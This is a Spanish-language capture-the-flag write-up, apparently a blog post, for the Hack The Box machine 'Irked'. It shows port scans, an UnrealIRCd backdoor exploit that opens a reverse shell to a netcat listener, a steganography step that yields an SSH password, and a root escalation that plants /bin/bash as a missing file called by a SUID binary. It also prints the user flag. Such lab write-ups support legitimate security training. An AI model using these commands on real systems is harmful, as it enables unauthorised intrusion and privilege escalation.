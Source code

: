 ```yaml
---
layout: post
title: Irked
subtitle: Plataforma HTB Dificultad Fácil
cover-img: /assets/img/irkedpque.png
thumbnail-img: /assets/img/irkedpque.png
share-img: /assets/img/Irked.png
author: Elmili72
---
```

![image](https://github.com/user-attachments/assets/3ba96632-5c35-4e79-bd54-6c4e495fbabb)

## 1. Escaneo de puertos general

Primero realizamos un escaneo de todos los puertos para ver cuales están abiertos.

```bash
$ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 10.10.10.117 -oG allports
PORT      STATE SERVICE    REASON
22/tcp    open  ssh        syn-ack ttl 63
80/tcp    open  http       syn-ack ttl 63
111/tcp   open  rpcbind    syn-ack ttl 63
6697/tcp  open  ircs-u     syn-ack ttl 63
8067/tcp  open  infi-async syn-ack ttl 63
58282/tcp open  unknown    syn-ack ttl 63
65534/tcp open  unknown    syn-ack ttl 63
```

## 2. Escaneo específico de puertos

Una vez tenemos los puertos abiertos realizamos un escaneo más específico de los servicios que corren en ellos y sus versiones.

```bash
$ nmap -sCV -p22,80,111,6697,8067,58282,65534 10.10.10.117 -oN escaneo
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35364/tcp6  status
|   100024  1          39038/udp   status
|   100024  1          49220/udp6  status
|_  100024  1          58282/tcp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
58282/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 3. Reconocimiento del servicio HTTP

En el puerto 80 (HTTP), podemos ver solo una imagen que dice que el servicio IRC está funcionando.

![image](https://github.com/user-attachments/assets/9b6d18c4-f408-41bf-981f-79cf86c918b7)

## 4. Búsquedas de vulnerabilidades en los servicios

Buscando uno de los servicios abiertos sobre el IRC anteriormente comentado vemos que hay un Backdoor sobre ese servicio.

![image](https://github.com/user-attachments/assets/b1507b6b-9814-4a38-bec6-462b8c5a2232)

## 5.  Fase de Explotación

Para poder user el exploit es importante modificar tanto la ip local como el puerto para que se ejecute correctamente.

![image](https://github.com/user-attachments/assets/016a44fc-77f5-473c-b5a3-556a2b111568)

```bash
$ python3 exploit.py 10.10.10.117 6697 -payload python #Esto en una terminal
```

```bash
$ nc -lvnp 4444 #Esto en otra terminal                                                 
listening on [any] 4444 ...
connect to [10.10.14.33] from (UNKNOWN) [10.10.10.117] 60976
ircd@irked:~/Unreal3.2$ 
```

Una vez estamos dentro vemos que somos el usuario ircd. Pese a ello podemos entrar en el directorio del usuario djmardov y leer archivos.

![image](https://github.com/user-attachments/assets/d68d85bb-ca6c-4dbb-a2af-62a2d5ec9719)

Entramos en el directorio Documents y vemos un archivo oculto llamado ".backup". El cual contiene una palabra secreta para esteganografía.

![image](https://github.com/user-attachments/assets/cd97d596-a03b-4713-9e4d-dedfe81eeaf3)

![image](https://github.com/user-attachments/assets/6850480c-7182-456e-80b5-9f982ddfe1c4)

## 6. Esteganografía

Al descargar la imagen del servicio HTTP, le podemos hacer un pequeño ejercicio de esteganografía para ver si tiene archivos ocultos usando la contraseña anteriormente dada y efectivamente hay un archivo "pass.txt".

```bash
$ steghide extract -sf irked.jpg
Anotar salvoconducto: 
anot� los datos extra�dos e/"pass.txt".
```

![image](https://github.com/user-attachments/assets/070817e1-dcbb-4243-82bf-a7a1dec2d2f9)

## 7. Intrusión al usuario

Y como era de esperar era la contraseña para el usuario djmardov para ssh. Y podemos leer el "user.txt".

![image](https://github.com/user-attachments/assets/85a0448f-59e6-4a7b-b41d-6eff06d5f081)

```bash
djmardov@irked:~$ cat user.txt
d238d8eb948f084a44836abe17d1b658
```

## 8. Escalada de Privilegios

La escalada de privilegios es bastante sencilla, buscamos archivos con permisos suid para el usuario djmardov desde la raíz y vemos un binario que no es frecuente.

![image](https://github.com/user-attachments/assets/71951fff-18d7-42de-837d-1d3bb9358772)

Al ejecutarlo vemos que realiza a una llamada a un archivo que no existe, por lo que podemos crearlo nosotros mismos y más facil aún siendo desde el directorio "/tmp".

![image](https://github.com/user-attachments/assets/bdf6325f-3c0e-44fc-b016-0ab035a083ea)

Creamos el archivo "listusers" y le otorgamos permisos de ejecución. Y estaremos logeados como root sin más problema. Pudiendo además leer el archivo con la flag "root.txt".

```bash
echo "/bin/bash" > /tmp/listusers
chmod u+x /tmp/listusers
```

![image](https://github.com/user-attachments/assets/15ee1d35-a8f1-406e-964d-2c9beb0cced3)

¡Espero que os haya gustado el writeup y que os haya servido! ¡Hasta la próxima!

